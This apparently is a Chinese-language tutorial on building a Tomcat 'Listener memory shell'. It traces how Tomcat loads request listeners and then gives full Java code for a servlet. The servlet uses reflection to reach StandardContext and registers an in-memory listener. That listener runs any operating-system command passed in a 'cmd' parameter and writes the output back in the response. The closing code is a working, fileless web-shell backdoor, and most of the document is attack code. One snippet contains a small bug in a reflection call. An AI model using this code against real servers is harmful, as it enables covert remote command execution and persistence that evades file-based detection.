










# Listener内存马

Tomcat有三大组件，Listener，Servlet，Filter，而Listener是最先加载的，其他两个组件可以用来做内存马，Listener也不例外，可以想办法动态注册到运行程序中，注入内存马

```
package Listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("init");
    }
}

```

先在tomcat中注册一个Listener看看效果，需要在web.xml中注册



运行后执行了代码



## 分析过程

我们需要的目的是动态注册一个Listener，所以来分析一下在tomcat中的listener从哪里取出来的

在requestInitialized下一个断点，看到了调用栈



可以看到是从StandarContext调用的，追踪这个instance参数



发现是从getApplicationEventListeners获取的一个Object数组，遍历得到Listener



可以看到就是取applicationEventListenersList的值，并起在同一类中的addApplicationEventListener会将listener添加到这个数组里面去，那思路就很明确了，我们可以获取StandarContext对象，调用applicationEventListenersList动态注册一个我们自己的listener

## 代码编写

首先需要获取到StandarContext，在ServletRequestEvent中存在getServletRequest方法，可以拿到请求的request对象



```
HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
ServletContext servletContext = request.getServletContext();
```



在ApplicationContextFacade中的context是ApplicationContext类型



通过ServletContext可以获取到ApplicationContext



而Application中的context的类型是StandarContext，所以可以用两次反射来获取到当前的StandarContext

```
ServletContext servletContext = request.getServletContext();
try {
    Field field1 = servletContext.getClass().getDeclaredField("context");
    field1.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field1.get(servletContext);
    
    Field field2 = applicationContext.getClass().getDeclaredField(servletContext);
    field2.setAccessible(true);
    StandardContext standardContext = (StandardContext) field2.get(applicationContext);
} catch (NoSuchFieldException e) {
    throw new RuntimeException(e);
} catch (IllegalAccessException e) {
    throw new RuntimeException(e);
}
```

接下来就编写带回显的Listener了，但是目前我们只拿到了HttpServletRequest对象，并没有拿到response对象，需要通过这个request对象去获取response对象

```
Field field = req.getClass().getDeclaredField("request");
field.setAccessible(true);
Request request1 = (Request) field.get(req);
HttpServletResponse response = request1.getResponse();
response.getWriter().write(line);
```

# 完整代码

```
package Servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;

@WebServlet("/listener")
public class ListenerServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        class AddListener implements ServletRequestListener {
            @Override
            public void requestDestroyed(ServletRequestEvent sre) {
                try {
                    HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
                    if (req.getParameter("cmd") != null) {
                        String cmd = req.getParameter("cmd");
                        InputStream inputStream = null;
                        inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
                        String line = null;
                        while (((line = bufferedReader.readLine()) != null)) {
                            Field field = req.getClass().getDeclaredField("request");
                            field.setAccessible(true);
                            Request request1 = (Request) field.get(req);
                            HttpServletResponse response = request1.getResponse();
                            response.getWriter().write(line);
                        }
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }

            @Override
            public void requestInitialized(ServletRequestEvent sre) {
            }
        }

        try {
            ServletContext servletContext = req.getSession().getServletContext();
            Field field1 =  servletContext.getClass().getDeclaredField("context");
            field1.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) field1.get(servletContext);

            Field field2 = applicationContext.getClass().getDeclaredField("context");
            field2.setAccessible(true);
            StandardContext standardContext = (StandardContext) field2.get(applicationContext);

            AddListener addListener = new AddListener();
            standardContext.addApplicationEventListener(addListener);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
    }
}

```

访问servlet注册恶意的listener

